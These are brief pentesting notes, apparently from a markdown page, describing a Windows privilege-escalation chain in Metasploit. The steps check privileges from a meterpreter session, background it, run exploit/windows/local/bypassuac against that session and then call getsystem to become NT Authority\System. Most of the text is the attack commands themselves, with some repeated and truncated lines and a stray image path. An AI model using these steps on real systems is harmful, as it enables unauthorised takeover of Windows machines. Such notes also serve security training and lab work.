

bypassuac (meterpreter)
We will use the module exploit/windows/local/bypassuac
Bypassing
User Account Control(UAC)To check if a UAC is enabled
meterpreter > run post/windows/gather/win_privs
we put in background the session where on the machine we have meterpreter shell but not Administrative permission
we search for the bypass user account control module and Administrative privilege
msf > use exploit/windows/local/bypassuac
msf > sessions
msf > set SESSION 1 #the one that we have put in background
If the exploit succeed, we will obtain Administrator privileges on the machine, but not yet the highest privileges.
If the exploit succeed, we will obtain that the
UAC policy is disabled, so the
getsystem command works
now we are NT Authority\System of the machine, which is the most privileged account on Windows, we can verify it with